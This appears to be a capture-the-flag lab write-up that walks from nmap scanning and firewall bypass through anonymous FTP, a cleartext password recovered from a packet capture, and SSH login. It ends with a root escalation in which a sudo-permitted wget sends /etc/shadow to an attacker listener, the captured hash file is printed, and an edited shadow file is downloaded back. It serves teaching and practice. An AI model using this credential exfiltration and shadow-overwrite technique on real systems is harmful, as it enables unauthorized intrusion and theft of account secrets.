 ## Description
 The purpose of this lab is to learn how to perform network packet analysis in order to get more intel about the hidden network infrastructure, detect misconfigurations, and most importantly, how you can make use of this intel to get access to systems and escalate your privileges. 
## Enumeration
 We started by scanning using `nmap`.
 nmap result:
 ```bash
 PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4f:d3:06:c9:29:81:07:68:3a:c1:2b:49:12:39:c6:19 (RSA)
|   256 f8:fe:33:8d:d9:d5:97:3b:14:08:18:10:4f:3a:19:5c (ECDSA)
|_  256 c2:d5:c2:60:62:0d:cd:a9:83:01:92:b6:dd:be:d6:a2 (ED25519)
80/tcp open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Port 21 filtered means that the port is being blocked by a firewall.
## Exploiting
Using `knock` we can allow connection to port 22. 
```knock works by requiring connection attempts to a series of predefined closed ports. With a simple port knocking method, when the correct sequence of port "knocks" (connection attempts) is received, the firewall opens certain port(s) to allow a connection.```
after that, we can use firewall-bypass script in nmap.

	nmap --script firewall-bypass [IP]
nmap result after bypassing the firewall:
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.16.4.91
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0            5930 Aug 28  2019 login.pcap
```
We can log in into FTP anonymously,we found a file named `login.pcap` we got it using `get`.
Using strings we can find any readable content in the file.
We can see a HTTP request using POST method,which is used to submit data to be processed by the resource identified by the URL.
The body of the request contains the data being sent to the server, in this case the username and password, encoded as `username=kabayla&password=K%40b%40ylA%21`.
So the decoded password is : `K@b@ylA!`
We can easily login using `ssh` with this credentials.
We can use `sudo -l` to list the user's sudo privileges.
So our user `kabayla` can run `/usr/bin/wget` as root without password.
Using `wget` we can post some files to our machine using `--post-file` option.
Starting our listener for port 80 we can get the files that we post from `wget`.
Doing this trick with /etc/shadow can help us view the password hash. We can crack it or overwrite it.
We got the POST request:
```bash
POST / HTTP/1.1
User-Agent: Wget/1.19.4 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 172.16.1.203
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 1021

root:*:18099:0:99999:7:::
daemon:*:18099:0:99999:7:::
bin:*:18099:0:99999:7:::
sys:*:18099:0:99999:7:::
sync:*:18099:0:99999:7:::
games:*:18099:0:99999:7:::
man:*:18099:0:99999:7:::
lp:*:18099:0:99999:7:::
mail:*:18099:0:99999:7:::
news:*:18099:0:99999:7:::
uucp:*:18099:0:99999:7:::
proxy:*:18099:0:99999:7:::
www-data:*:18099:0:99999:7:::
backup:*:18099:0:99999:7:::
list:*:18099:0:99999:7:::
irc:*:18099:0:99999:7:::
gnats:*:18099:0:99999:7:::
nobody:*:18099:0:99999:7:::
systemd-network:*:18099:0:99999:7:::
systemd-resolve:*:18099:0:99999:7:::
syslog:*:18099:0:99999:7:::
messagebus:*:18099:0:99999:7:::
_apt:*:18099:0:99999:7:::
lxd:*:18099:0:99999:7:::
uuidd:*:18099:0:99999:7:::
dnsmasq:*:18099:0:99999:7:::
landscape:*:18099:0:99999:7:::
sshd:*:18099:0:99999:7:::
pollinate:*:18099:0:99999:7:::
ubuntu:!:18136:0:99999:7:::
ftp:*:18136:0:99999:7:::
kabayla:$6$MC5Bf0ny.RmVf$q/j4e1ab8xkBF9rRtILPemtZq3BMrPkjK.mCcb7jraCMBswToeYwTtKDqHgwlmNA6sCZv2rlOQ6hdGqv63Aqb1:18136:0:99999:7:::
Debian-snmp:!:18971:0:99999:7:::
```

We saved the output in a file named `shadow` in our machine, then we update the hash of root account we haah of kabayla account so they have the same hash, and we can easily log in root using the password of kabayala.
after editing the hash we can launch http server, and using `wget` we can replace the machine shadow with our modified shadow.
Then we easily logged in root,and got our flag.
